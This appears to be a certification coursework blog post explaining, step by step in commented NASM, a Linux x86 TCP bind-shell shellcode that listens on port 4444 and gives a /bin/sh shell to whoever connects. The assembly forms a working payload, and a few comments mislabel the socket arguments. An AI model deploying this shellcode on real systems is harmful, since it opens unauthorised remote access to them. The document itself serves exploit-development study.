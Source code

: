 # 1. TCP Bind Shell (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP bind shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening port.

## Solution

The solution is based on the [linux/x86/shell_bind_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_bind_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening port is defined at the top of the NASM source:

```nasm
global _start

port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The port is bound to the socket on 0.0.0.0 using the [bind](https://man7.org/linux/man-pages/man2/bind.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = 0 }
    ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x2
    ;   bind(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push edx                ; push s_addr = INADDR_ANY = 0
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

The socket is marked as a listening socket using the [listen](https://man7.org/linux/man-pages/man2/listen.2.html) socket system call:

```nasm
    ; int listen(int sockfd, int backlog): socketcall 0x4
    ;   listen(s, 0)
    mov [ecx + 4], eax      ; set backlog = 0 (eax = 0 from successful bind return and sockfd already set)
    mov bl, 0x4             ; socketcall = 4
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The shellcode then waits for an incoming connection using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) socket system call. Note that the *addrlen* argument is set to NULL, so the value of *addrlen* does not matter:

```nasm
    ; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen): socketcall 0x5
    ;   client = accept(s, 0, whatever)
    inc ebx                 ; socketcall = 5 (all arguments already set)
    mov al, 0x66            ; syscall = 102 (eax = 0 from successful listen return)
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the new connected socket using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(client, 0..2)
    xchg eax, ebx           ; oldfd = client, eax = 5
    lea ecx, [edx + 0x3]    ; newfd = 3
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 5 first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    pop esi                 ; put null byte on top of stack
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_bind.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_bind.nasm)

## Conclusion

...
